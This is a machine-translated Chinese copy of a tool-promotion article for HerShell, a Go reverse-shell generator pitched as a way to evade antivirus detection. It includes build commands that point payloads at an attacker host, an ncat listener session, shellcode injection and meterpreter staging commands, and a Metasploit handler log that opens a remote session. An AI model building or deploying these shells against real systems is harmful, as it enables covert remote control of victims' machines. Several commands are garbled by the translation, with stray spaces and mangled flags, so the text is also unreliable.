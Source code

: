 # HerShell:多平台反向外壳生成器

> 原文：<https://kalilinuxtutorials.com/hershell-multiplatform-reverse-shell-generator/>

[![HerShell : Multiplatform Reverse Shell Generator](img//1b63770820e0179a05a202f699637659.png "HerShell : Multiplatform Reverse Shell Generator")](https://1.bp.blogspot.com/-8r6a4JhySLg/Xi67SQTtfhI/AAAAAAAAEnw/K16coRzuCN8UgWjf9_eHS766PpO5FO84QCLcBGAsYHQ/s1600/New%25281%2529.png)

**Hershell** 是用 [Go](https://golang.org/) 编写的简单 TCP 反向外壳工具。它使用 TLS 来保护通信，并提供证书公钥指纹锁定功能，防止流量拦截。

支持的操作系统有:

*   **窗户**
*   **Linux**
*   **苹果操作系统**
*   **FreeBSD 和衍生品**

**为什么？**

虽然 meterpreter 的有效载荷很大，但它们有时会被 AV 产品发现。这个项目 HerShell 的目标是得到一个简单的反向 Shell，它可以在多个系统上工作。

**如何？**

因为 HerShell 是用 Go 编写的，所以您可以针对所需的架构交叉编译源代码。

**入门&依赖**

因为这是一个 Go 项目，你需要按照官方文档来设置你的 Golang 环境(使用`$GOPATH`环境变量)。

然后，只需运行`**go get github.com/lesnuages/hershell**`来获取项目。

**制造有效载荷**

为了简化，您可以使用提供的 Makefile。您可以设置以下环境变量:

*   `**GOOS**`:目标操作系统
*   **`GOARCH`** :目标架构
*   `**LHOST**`:攻击者的 IP 或域名
*   `**LPORT**`:监听端口

对于`**GOOS**`和 **`GOARCH`** 变量，可以在这里得到允许值[。](https://golang.org/doc/install/source#environment)

然而，`**Makefile**`中提供了一些辅助目标:

*   `**depends**`:生成服务器证书(反向 shell 需要)
*   `**windows32**`:构建一个 windows 32 位可执行文件(PE 32 位)
*   **`windows64`** :构建一个 windows 64 位可执行文件(PE 64 位)
*   **`linux32`** :构建一个 linux 32 位可执行文件(ELF 32 位)
*   **`linux64`** :构建一个 linux 64 位可执行文件(ELF 64 位)
*   **`macos32`** :构建一个 mac os 32 位可执行文件(Mach-O)
*   **`macos64`** :构建 mac os 64 位可执行文件(Mach-O)

对于那些目标，你只需要设置 **`LHOST`** 和 **`LPORT`** 环境变量。

**也可阅读-[如何保护自己免受常见密码攻击](https://kalilinuxtutorials.com/password-attacks/)**

**使用外壳**

一旦执行，您将获得一个远程外壳。这个定制的交互式 shell 将允许您通过 Windows 上的`cmd.exe`或 UNIX 机器上的`/bin/sh`来执行系统命令。

支持以下特殊命令:

*   **`run_shell`** :让你退出一个系统外壳(例如，允许你改变目录)
*   `inject <base64 shellcode>`:在同一个进程内存中注入一个外壳代码(base64 编码)，并执行它
*   `**meterpreter [tcp|http|https] IP:PORT**`:连接 multi/handler 从 metasploit 获取 stage2 reverse tcp、http 或 https meterpreter，并执行内存中的 shellcode(目前仅限 Windows)
*   **`exit`** :优雅地退出

**用途**

首先，您需要生成一个有效的证书:

**$ make depends**
OpenSSL req-subj '/CN = your CN . com/O = your org/C = FR '-new-new key rsa:4096-days 3650-nodes-x509-keyut server . key-out server . PEM
**生成 4096 位 RSA 私钥**
…………………………………………………………………………………………………………………………
**将新私钥写入‘server . key’**【t100

**对于 windows:**

**#预定义 32 位目标**
$ make windows 32 LHOST = 192 . 168 . 0 . 12 LPORT = 1234
**#预定义 64 位目标**
$ make windows 64 LHOST = 192 . 168 . 0 . 12 LPORT = 1234

**对于 Linux:**

**#预定义 32 位目标**
$ make Linux 32 LHOST = 192 . 168 . 0 . 12 LPORT = 1234
**#预定义 64 位目标**
$ make Linux 64 LHOST = 192 . 168 . 0 . 12 LPORT = 1234

**苹果 OS X**

**$ make MAC OS LHOST = 192 . 168 . 0 . 12 LPORT = 1234**

**例题**

**基本用法**

可以使用各种工具来处理传入的连接，例如:

*   socat
*   ncat
*   openssl 服务器模块
*   metasploit 多重处理程序(带有一个`**python/shell_reverse_tcp_ssl**`有效负载)

下面是一个关于`ncat`的例子:

**$ Ncat–SSL–SSL-cert server . PEM–SSL-key server . key-lvp 1234
Ncat:版本 7.60(https://nmap.org/ncat)
Ncat:监听 on :::1234 Ncat:监听 on 0.0.0.0:1234
Ncat:从 172.16.122.105 连接。
Ncat:来自 172.16.122.105 的连接:47814。**
【her shell】>whoami
desktop-3pvv 31a \ lab

**抄表员暂存**

**警告**:这目前只适用于 Windows 平台。

meterpreter staging 目前支持以下有效载荷:

*   **T2`windows/meterpreter/reverse_tcp`**
*   **T2`windows/x64/meterpreter/reverse_tcp`**
*   **T2`windows/meterpreter/reverse_http`**
*   **T2`windows/x64/meterpreter/reverse_http`**
*   **T2`windows/meterpreter/reverse_https`**
*   **T2`windows/x64/meterpreter/reverse_https`**

要使用正确的协议，只需指定想要使用的传输协议(tcp、http、https)

要使用 meterpreter 暂存功能，只需启动您的处理程序:

```
[14:12:45][172.16.122.105][Sessions: 0][Jobs: 0] > use exploit/multi/handler
[14:12:57][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[14:13:12][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lhost 172.16.122.105
lhost => 172.16.122.105
[14:13:15][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set lport 8443
lport => 8443
[14:13:17][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > set HandlerSSLCert ./server.pem
HandlerSSLCert => ./server.pem
[14:13:26][172.16.122.105][Sessions: 0][Jobs: 0] exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] [2018.01.29-14:13:29] Started HTTPS reverse handler on https://172.16.122.105:8443
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
```

然后，在`**hershell**`中，使用 **`meterpreter`** 命令:

**【赫谢尔】>抄表员 https 172.16.122.105:8443**

新的计量员会议将在`**msfconsole**`中弹出:

```
[14:13:29][172.16.122.105][Sessions: 0][Jobs: 1] exploit(multi/handler) >
[*] [2018.01.29-14:16:44] https://172.16.122.105:8443 handling request from 172.16.122.105; (UUID: pqzl9t5k) Staging x64 payload (206937 bytes) ...
[*] Meterpreter session 1 opened (172.16.122.105:8443 -> 172.16.122.105:44804) at 2018-01-29 14:16:44 +0100

[14:16:46][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  DESKTOP-3PVV31A\lab @ DESKTOP-3PVV31A  172.16.122.105:8443 -> 172.16.122.105:44804 (10.0.2.15)

[14:16:48][172.16.122.105][Sessions: 1][Jobs: 1] exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-3PVV31A\lab
```

**信用**:docker file 功能的 [@khast3x](https://github.com/khast3x)

[**Download**](https://github.com/lesnuages/hershell)